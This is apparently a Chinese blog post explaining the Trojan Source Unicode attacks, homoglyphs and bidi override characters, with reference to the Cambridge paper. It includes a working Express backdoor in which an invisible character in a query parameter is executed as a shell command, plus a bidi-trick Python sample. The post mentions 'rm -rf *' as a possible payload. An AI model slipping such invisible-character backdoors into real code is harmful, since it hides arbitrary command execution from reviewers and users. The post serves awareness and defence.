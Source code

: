 ## 引言  

一个简单的例子  

~~~python
ꓐ = 1
B = 2
print(ꓐ)
~~~

这端代码看起来结果是 2 但实际上结果是1  
因为 `ꓐ` 与 `B` 并不是同一个字符, 尽管它们看起来长得一模一样  


## Trojan Source  

剑桥大学的研究人员在11月1日公开了一个会影响大多数编译器和软件开发环境的漏洞，并命名为 **Trojan Source**  
>论文: [《Trojan Source: Invisible Vulnerabilities》](https://trojansource.codes/trojan-source.pdf)  

该漏洞基于 **Unicode** 字符的特性，其主要有两种利用方法  
* 第一种是使用 Unicode 的 Bidi 算法（CVE-2021-42574）, 对字符进行视觉上的重新排序，使其呈现与编译器和解释器所不同的逻辑顺序  
* 第二种是同形文字攻击(CVE-2021-42694), 也就是利用在视觉上看起来相似的不同字符  

由于绝大多数该漏洞适用于绝大多数编程语言  
因为大多数语言的 词法分析过程 允许使用所有unicode字符  

很多时候, 这个漏洞会被用于 供应链攻击  

> **供应链攻击**  
> 供应链攻击是一种传播间谍软件的方式，一般通过产品软件官网或软件包存储库进行传播  
> 通常来说，黑客会瞄准部署知名软件官网的服务器，篡改服务器上供普通用户下载的软件源代码，将间谍软件传播给前往官网下载软件的用户  
> 此外，黑客还会向一些软件开发者常用的软件包存储库如npm、PyPI和RubyGems等注入带有恶意代码的软件包。这些软件包在用户下载后安装时会触发恶意行为  


## 同形文字攻击(CVE-2021-42694)  

引言中的 DEMO 代码就属于此种  
或者写一个 看不出有后门的服务  

~~~js
const express = require('express');
const util = require('util');
const exec = util.promisify(require('child_process').exec);

const app = express();

app.get('/network_health', async (req, res) => {
    const { timeout,ㅤ} = req.query;
    const checkCommands = [
        'ping -c 1 google.com',
        'curl -s http://example.com/',ㅤ
    ];

    try {
        await Promise.all(checkCommands.map(cmd => 
                cmd && exec(cmd, { timeout: +timeout || 5_000 })));
        res.status(200);
        res.send('ok');
    } catch(e) {
        res.status(500);
        res.send('failed');
    }
});

app.listen(8080);
~~~

这段代码使用 Express 框架搭建了一个 API 接口，当你调用 http://127.0.0.1:8080/network_health 的时候, 后台会首先ping一下 Google，然后再使用curl访问 http://example.com  
如果都成功了，那么显然你的网络是正常的，于是给你返回ok  

这个功能简单得不能再简单了，能有什么问题呢？我现在就把代码放到你的面前让你来 Review , 你能说我的代码有问题？  
但实际上，上面这段代码确实有一个后门，可以让我在部署了这个接口的机器上执行任意命令，包括但不限于下载木马或者 `rm -rf *`  

~~~js
......
    const { timeout, 这里} = req.query;
    const checkCommands = [
        'ping -c 1 google.com',
        'curl -s http://example.com/',这里
    ];
......
~~~

因为代码中有两个肉眼不可见的字符, 利用它们就能够接收参数, 执行任何命令  


## Unicode 的 Bidi 攻击算法(CVE-2021-42574)  

并非所有的语言文字都是从左往右的, 例如阿拉伯语（从右到左阅读）  
计算机系统需要有一种确定性的方法来解决文本中的方向冲突  

Unicode 规定了一些方向指示字符，一旦使用了这些方向转换字符，文字方向就会改变  

|Abbreviation| Code Point |Name |Description|
|--|--|--|--|
|LRE| U+202A | Left-to-Right |Embedding Try treating following text as left-to-right.|
|RLE| U+202B | Right-to-Left |Embedding Try treating following text as right-to-left.|
|LRO| U+202D | Left-to-Right |Override Force treating following text as left-to-right.|
|RLO| U+202E | Right-to-Left |Override Force treating following text as right-to-left.|
|LRI| U+2066 | Left-to-Right |Isolate Force treating following text as left-to-right without affecting adjacent text.|
|RLI| U+2067 | Right-to-Left |Isolate Force treating following text as right-to-left without affecting adjacent text.|
|FSI| U+2068 | First Strong |Isolate Force treating following text in direction indicated by the next character.|
|PDF| U+202C | Pop Directional |Formatting Terminate nearest LRE, RLE, LRO, or RLO.|
|PDI| U+2069 | Pop Directional |Isolate Terminate nearest LRI or RLI.|


Unicode 标准规定, 内存表示顺序称为逻辑顺序,  
当文本在一行的时候, 大多数脚本会从左往右显示字符. 然而, 也有些脚本（如阿拉伯语）显示文本的自然顺序是从右往左  

所以 Unicode 规定了每个字符都有一个隐式双向类型  
从左到右 和 从右到左 的双向类型称为强类型，具有这些类型的字符被称为强方向字符  
与数字相关的双向类型被称为弱类型，具有这些类型的字符被称为弱方向字符  
除了方向格式码，剩下的双向类型和字符被称为中性  

为了处理 右往左的语言 与 从左往右的语言 同时使用的情况  
Unicode 规定了一个双向的算法 Bidirectional algorithm 简称 bidi  
标准bidi算法提供的显示顺序还不够，所以对于这些情况，提供了覆盖控制字符  
Bidi算法覆盖是不可见的字符，从而可以切换字符组的显示顺序  

假设Unicode 字符为： `RLI 1 2 3 PDI`  
那么将显示为：`3 2 1`  

大多数IDE会自动根据 覆盖控制字符 调整字符顺序  
但并非所有地方都会调整, 有些地方会按原本字符顺序显示  
比如: Github 上看到的 HTML 中的 代码内容是不会根据 覆盖控制字符 来调整顺序的   

例子: 1+1=2 不是吗？  

~~~
def simple_add():
    ''' I just want to ⁧''' ;return '2'
    return '3'

print('1 + 1 =', simple_add())
~~~

这段代码执行的结果是 `1 + 1 = 2`, 尽管怎么看都应该是 `1 + 1 = 3`  
这是因为这段代码使用了 `RLI` 这个 **覆盖控制符**  
将这个代码复制到 IDE 里, 它会显示出它原来的样貌，因为 IDE 会处理这个 **覆盖控制符**, 将之"还原"成"正确"的顺序    


## 参考  
* [《Trojan Source: Invisible Vulnerabilities》](https://trojansource.codes/trojan-source.pdf)  
* [Trojan 用例](https://github.com/nickboucher/trojan-source)  
* [Trojan Source：新型供应链攻击？隐藏在源代码中的“幽灵”](https://zhuanlan.zhihu.com/p/429284303)  
* [《漏洞之王：Unicode编译器漏洞威胁全球软件代码》](https://www.secrss.com/articles/35655)  
* [《一日一技：亲眼所见，也非真实，如何明目张胆架设后门程序》](https://mp.weixin.qq.com/s/qvHv_MfYbk6P5AqVjogapA)  
